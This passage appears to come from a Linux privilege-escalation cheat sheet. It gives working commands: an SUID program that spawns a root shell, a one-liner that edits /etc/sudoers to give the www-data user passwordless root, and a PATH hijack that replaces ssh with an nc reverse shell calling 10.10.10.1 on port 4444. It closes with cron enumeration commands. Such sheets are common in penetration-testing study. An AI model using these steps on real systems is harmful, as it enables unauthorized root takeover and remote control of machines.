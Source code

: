 ```
  gcc -o suid suid.c  
  For 32 bit:  
  gcc -m32 -o suid suid.c


```

Create and compile an SUID from a limited shell (no file transfer)

```
echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" > privsc.c gcc privsc.c -o privsc

```
Handy command if you can get a root user to run it. Add the www-data user to Root SUDO group with no password requirement:

```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update

```
You may find a command is being executed by the root user, you may be able to modify the system PATH environment variable to execute your command instead. In the example below, ssh is replaced with a reverse shell SUID connecting to 10.10.10.1 on port 4444.

```
set PATH="/tmp:/usr/local/bin:/usr/bin:/bin" echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 > tmp/f" >> /tmp/ssh chmod +x ssh


```


### Unmounted filesystems

Here we are looking for any unmounted filesystems. If we find one we mount it and start the priv-esc process over again.

```
mount -l
```

### Cronjob

Look for anything that is owned by privileged user but writable for you

```
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```
